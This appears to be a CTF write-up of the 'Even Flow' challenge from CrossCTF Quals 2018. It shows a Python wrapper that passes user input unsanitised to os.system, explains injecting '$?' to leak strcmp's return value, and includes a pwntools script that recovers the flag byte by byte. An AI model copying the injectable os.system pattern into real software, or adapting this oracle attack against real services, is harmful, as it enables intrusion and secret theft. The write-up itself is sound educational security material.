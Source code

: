 # Even Flow - CrossCTF Quals 2018 (crypto)

> Do you like shell command injection?
>
> nc ctf.pwn.sg 1601
>
> Creator - amon (@nn_amon)

## Challenge
We are given a python script that is ran upon connection to the challenge server. Mainly, it reads in 2 strings.

First, a string that is called "flag", and then another string consisting of only 2 bytes called "shell".
```
sys.stdout.write("Flag: ")
sys.stdout.flush()
flag = sys.stdin.readline().strip()

sys.stdout.write("Shell: ")
sys.stdout.flush()
shell = sys.stdin.read(2)
```

The "flag" would be passed as an argument into the `evenflow` binary, while the "shell" is just being passed to `echo`.
```
os.system("./evenflow " + flag + "; echo \"" + shell + "\"");
```

We were also given the source of `evenflow`, which just reads the flag from a file, and performs `strcmp` on the "flag" that we passed in and the actual flag.
```
size_t get_file_size(char * filename) {
    struct stat st;
    stat(filename, &st);
    return st.st_size;
}

int main(int argc, char ** argv) {
    FILE * fd = fopen("flag", "r");
    size_t file_size = get_file_size("flag");
    char * buffer = malloc(file_size);
    fread(buffer, 1, file_size, fd);
    return strcmp(buffer, argv[1]);
}
```

The interesting part of this code is the last line,
```
return strcmp(buffer, argv[1]);
```

According to documentation, `strcmp` will return a number that says how far the first differing character is away from each other.

## Exploit
### $?
`$?` contains the return value of the previous command. Since we are allowed to pass a string of 2 bytes to `echo`, we can just send in `$?` for "shell".

So, we can call `echo $?` which will give us the return value of `./evenflow flag`, which will let us know how far away is the first differing character from the actual flag. 

With this information, we can keep "correcting" our flag until we get the actual flag.

### Script
We can write a script to automate this process.
```
from pwn import *

def tryf(flag):
    p = remote('ctf.pwn.sg', 1601)

    p.sendlineafter('Flag: ', flag)
    p.sendlineafter('Shell: ', '$?')

    # returns the return value of evenflow
    return int(p.recvline())

# The Idea:
# Basically, we compare the actual flag to "0",
# Then adjust it based on the output of strcmp (the exit code)
# e.g. to "C", then add a "0" => "C0"
# and repeat till we get "}", the end of the flag

s = "0"
while True:
    i = tryf(s)

    # adjust!
    c = chr(ord('0')+i)
    s = s[:-1] + c

    if s[-1] == '}':
        print(s)
        break

    s+='0'
```
